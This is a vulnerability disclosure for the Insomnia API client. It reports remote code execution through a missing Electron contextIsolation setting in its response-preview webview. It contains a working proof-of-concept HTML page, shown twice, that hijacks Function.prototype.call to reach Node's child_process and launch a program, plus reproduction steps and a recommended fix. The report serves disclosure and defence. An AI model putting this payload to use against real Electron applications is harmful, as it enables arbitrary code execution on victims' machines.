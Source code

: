 # RCE through missing contextIsolation

## Summary

The webview for previewing and rendering HTTP-responses does not have [contextIsolation](https://www.electronjs.org/docs/tutorial/context-isolation) enabled. This allows remote attackers to execute arbitrary code if a user requests a malicious website or an attacker can perform a MitM-attack and alter the HTTP response.

## Description

By default the application allows the execution of JavaScript in HTML previews of HTTP-responses.
There is an option where a user can disable this behavior, but by default JavaScript is allowed.

When a HTML-like response for a request is received, a `ResponseWebview` element will be created: https://github.com/Kong/insomnia/blob/a36e22c294d22174f1a7ac03ed21f6204b192891/packages/insomnia-app/app/ui/components/viewers/response-viewer.js#L318
This is basically a wrapper around a `<webview>`-tag (https://github.com/Kong/insomnia/blob/a36e22c294d22174f1a7ac03ed21f6204b192891/packages/insomnia-app/app/ui/components/viewers/response-web-view.js) that loads the response converted to a data-URL.
In the `<webview>` only the option, whether JavaScript is enabled or not is set (`webpreferences="javascript=yes"`), the other options are inherited of the main window, where the following options are set: 
```js
webPreferences: {
    zoomFactor: zoomFactor,
    nodeIntegration: true,
    webviewTag: true,
    enableRemoteModule: true,
},
```
https://github.com/Kong/insomnia/blob/07f9fa676ed8f2e7ea72e5374d69dcb960e32ca9/packages/insomnia-app/app/main/window-utils.js#L66

The version of Electron that Insomnia uses is `9.1.1` as can be seen by navigating to "Help" > "About" in the application menu.
The default value of `contextIsolation` in this Electron version is `false`.

Missing `contextIsolation` allows an attacker to get access to Electron or Node.js APIs by overwriting JavaScript functions which might be later called in a context which has access to Node.js APIs.
By overwriting standard JavaScript functions like `Function.prototype.call`, the website which is loaded in the `<webview>` without access to Node.js APIs can get access to them when the overwritten function is executed in the context of Electron or application specific (in this case Insomnia) code.
For example when the overriden function is used in the application code and called with an object as argument that has access to the Nodes.js `child_process` module, it can be accessed inside the function provided as a replacement.
See this [link](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en) for the original details about exploiting missing `contextIsolation`.

So when a malicious website provides the following content for example:
```html
<html>
<head>
<script>
const handler = {
  apply: function(target, thisArg, argumentsList) {
    console.log(target, thisArg, argumentsList);
    if (argumentsList.length === 4 && argumentsList[3].name === "__webpack_require__") {
        argumentsList[3].m.module(Array.prototype)
        Array.prototype.exports.createRequire("/")("child_process").spawnSync("calc.exe")
    }
    return Reflect.apply(target, thisArg, argumentsList);
  }
};
Function.prototype.call = new Proxy(Function.prototype.call, handler);
</script>
</head>
<body>
<textarea contenteditable spellcheck="true">
clck and correkt mee
</textarea>
test.html
</body>
</html>
```

And a user sends a request to the website (or an attacker controls the response in a MitM-Style attack), then the user right clicks on the misspelled word and clicks on a suggestion, the attackers payload will get executed.

In this case a npm package called "electron-context-menu", is utilized.
It is created in the [main window](https://github.com/Kong/insomnia/blob/07f9fa676ed8f2e7ea72e5374d69dcb960e32ca9/packages/insomnia-app/app/main/window-utils.js#L501) and also affects subwindows like the webview.
It simply adds a context menu with a few default features.
One of those is responsible for correcting misspelled words by right clicking on the word and choosing one of the suggested corrections.

This is just one possible execution chain, there might be further "gadgets" which would allow code execution even without any user interaction.


## Environment/Affected Software

Tested with: 
- Insomnia Core 2020.5.1
- Insomnia 2021.1.1

OS: Windows 10

## Steps to Reproduce

1. Start a local webserver which serves the following HTML-file:
```html
<html>
<head>
<script>
const handler = {
  apply: function(target, thisArg, argumentsList) {
    console.log(target, thisArg, argumentsList);
    if (argumentsList.length === 4 && argumentsList[3].name === "__webpack_require__") {
        argumentsList[3].m.module(Array.prototype)
        Array.prototype.exports.createRequire("/")("child_process").spawnSync("calc.exe")
    }
    return Reflect.apply(target, thisArg, argumentsList);
  }
};
Function.prototype.call = new Proxy(Function.prototype.call, handler);
</script>
</head>
<body>
<textarea contenteditable spellcheck="true">
clck and correkt mee
</textarea>
test.html
</body>
</html>
```

2. In Insomnia create a new request targeting the URL where the file from step 1 is located.

3. Send the request.

4. Right click on a misspelled word in the textarea and then click on one of the suggested words in the contextmenu.



## Suggested Solution

The option `contextIsolation` should be set to `true`, especially in the webview for rendering HTML previews of HTTP-responses.
See: https://www.electronjs.org/docs/tutorial/security#3-enable-context-isolation-for-remote-content
